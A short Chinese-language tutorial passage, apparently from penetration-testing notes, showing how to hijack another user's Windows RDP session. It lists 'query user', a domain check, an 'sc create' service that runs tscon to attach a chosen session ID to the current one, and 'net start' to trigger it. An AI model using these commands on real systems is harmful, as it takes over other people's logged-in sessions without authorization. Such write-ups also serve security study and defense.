 ![](/img/hack/RDP/1506046796446.png)


## 创建服务

**0x01执行命令：**

查询用户会话状态,获得会话id和会话名：

```c
query user
```

```c
wmic computersystem get domain
```

创建名为`sesshijack`服务：

```c
sc create sesshijack binpath= "cmd.exe /k tscon 需要劫持的会话ID /dest:当前用户会话名"
```

执行服务：

```
net start sesshijack
```
